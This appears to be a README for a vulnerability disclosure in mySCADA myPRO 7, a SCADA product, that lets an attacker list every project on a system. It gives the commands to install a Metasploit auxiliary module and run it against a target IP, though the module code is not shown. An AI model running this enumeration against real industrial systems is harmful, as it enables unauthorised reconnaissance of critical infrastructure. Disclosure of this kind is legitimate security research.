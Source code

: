 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.
```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RPHOST [IP ADDRES]

run
```
![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
